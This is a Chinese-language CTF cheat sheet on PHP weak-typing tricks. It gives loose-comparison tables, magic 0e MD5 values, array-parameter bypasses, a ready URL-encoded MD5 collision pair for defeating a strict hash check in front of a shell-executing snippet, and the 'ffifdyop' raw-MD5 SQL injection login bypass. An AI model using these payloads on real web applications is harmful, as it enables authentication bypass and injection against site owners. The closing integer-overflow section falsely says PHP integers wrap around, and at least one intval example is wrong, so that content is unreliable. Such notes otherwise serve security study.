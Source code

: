 ## **php弱类型：**
<https://www.cnblogs.com/linfangnan/p/13411103.html>
**类型相等判断**
PHP 比较 2 个值是否相等可以用 “ == ” 或 “ === ”，“ == ” 会在比较时自动转换类型而不改变原来的值，因此这个符号经常出现漏洞。“ == ” 比较相等的一些常见值如下，当某些语句的判断条件是使用 “ == ”来判断时，就可以使用弱类型来替代。值得一提的是 “0e” 开头的哈希字符串，PHP 在处理哈希字符串时会把每一个以 “0E” 开头的哈希值都解释为 0。

```
'' == 0 == false
'123' == 123
'abc' == 0
'123a' == 123
'123);// ' == 123
'0x01' == 1
'0e12346789' == '0e987654321'
[false] == [0] == [NULL] == ['']
NULL == false == 0
true == 1

'1%2b2' == 1
'1+2' == 1
intval(1+2) == 3
intval("1+2") == 1
intval(" '1000' ") == 0
echo intval([0])  // 1 传一个数组永远为1

intval科学计数返回前面，科学计数后有+好返回字符串拼接后值。
intval(2019e1) == 2019
intval(2019e1+1) == 20191 

echo intval(0x117c) // 输出10进制4476  
通过检测 var 的格式来决定使用的进制： 
◦ 如果字符串包括了 "0x" (或 "0X") 的前缀，使用 16 进制 (hex)；否则，  
◦ 如果字符串以 "0" 开始，使用 8 进制(octal)；否则，  
◦ 将使用 10 进制 (decimal)。 
```

如果遇到了 “===” 则不会进行类型转换，但也并不代表无从下手。如果条件表达式中含有函数，也可以通过**传入数组**让函数返回 NULL 使得条件满足。



^
## **md5判断**
**弱绕过**
```
if(md5($_POST['md51']) == md5($_POST['md52']) 
     && $_POST['md51'] != $_POST['md52'])
```
方法1：

PHP 在处理哈希字符串时，“0e” 开头的值利用 “==” 判断相等时会被视为 0。所以如果两个不同的密码经过哈希以后，其哈希值都是以 ”0E” 开头的，那么 PHP 将会认为他们相同。
md51和md52取以下两值
QNKCDZO  s155964671a  s1091221200a  240610708
方法2：
数组绕过，原理是 md5() 等函数不能处理数组，导致函数返回Null。而Null是等于Null的，导致了绕过。
?md51[]=1&md52[]=2

^
**强绕过**
```
if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
}



a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

^
**php中原值和md5(原值)后要==**
原值为0e215962017即可


^
**数据库中的MD5造成注入：**
```
select * from 'admin' where password=md5($pass,true)
```
```
<?php
$pass = "ffifdyop";
echo md5($pass,ture);  //为'or'6?]??!r,??b
?>
```
所以传入ffifdyop即可密码正确。

^
## **php整数溢出**
PHP中整数溢出的具体值取决于系统的架构（32位还是64位）。在32位系统中，整数的范围是 -2147483648 到 2147483647，当超过这个范围时会发生溢出。在64位系统中，整数的范围是 -9223372036854775808 到 9223372036854775807。

当一个整数超过了系统所能表示的最大值，它会回绕到最小值。同样，当一个整数低于系统所能表示的最小值，它会回绕到最大值。这就是整数溢出的发生。

在PHP中，如果整数发生溢出，它不会引发错误，而是静默地产生一个新的整数值。例如，在32位系统中，如果一个整数超过了2147483647，它将回绕到-2147483648。这种行为可能导致程序逻辑错误，因此在处理较大数值时应该格外小心。
